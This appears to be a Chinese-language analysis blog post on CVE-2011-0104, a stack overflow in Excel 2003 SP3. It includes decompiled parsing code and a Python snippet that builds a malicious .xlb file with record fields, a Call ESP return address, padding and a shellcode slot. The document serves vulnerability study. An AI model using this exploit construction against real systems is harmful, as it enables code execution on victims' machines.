

CVE-2011-0104分析
环境
受影响软件: Office Excel 2003 (11.8324.8324) SP3
分析
主程序没有启用DEP ASLR Stack cookie，所以直接覆盖返回地址就行了
这里我用的2003，有些数据跟公布的POC不一样，后面会说
Windbg载入程序，加载EXP文件，崩溃后打开IDA网上找 找到来源
else if ( recordType == 167 ) // A7 type
{
3070EEB7:
field2_dword = &buf[recordLength];
v11 = dword_308942E4 < 5;
LOBYTE(v11) = dword_308942E4 >= 5;
len = &buf[recordLength];
这里跟着EXP里的数据找，很容易定位到，往下找到有问题的函数
if ( HIWORD(ret_addr) & 0x12F && buf2 >= len )
{
recordType = read_buf();
if ( recordType != 0x3C ) // field4
goto LABEL_184; // 结束标志
filed5 = read_buf();
v18 = elementSize * field2;
len = filed5;
buf2 = buf_1 + elementSize * field2 + 3;
v19 = get_gbuf_size();
read_buf_len(v5, buf2, len, -3u - v18 + v19);// 问题复制内存函数
为了搞清楚，程序流程，我根据OD的RUNTRACE得到下图  可以方便的看到解析数据的执行流程
与公共POC不同的地方：
recordType = b"\xA7\x00" #定值
recordLenght = b"\x04\x00"
field1 = b"\x00" #不重要
field2 = b"\x28\x0C" #计算BUFFER地址
field3 = b"\x00" #不重要
field4 = b"\x3C\x00" #定值
field5 = b"\x00\x03" #读取长度
eip = b"\x53\x52\x11\x30" # Call ESP
fdW = open('exploit2003.xlb', 'wb+')
fdW.write(str1)
fdW.write(record)
fdW.write(b"\x41") # padding
fdW.write(eip)
#fdW.write("\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00") # bypassing a conditional
fdW.write(b"\x41"*0x24+b"\xF8\xFF\x89\x30"+b"\x41"*(0x2c-0x24-4)) # padding return 2c, addr must writeable
fdW.write(shellcode)
这里第二次retn 0x2c才能控制EIP，所以填充一些字节,其中一个特殊值是因为返回前有mov dword ptr [addr], imm32,所以要一个地址保证可写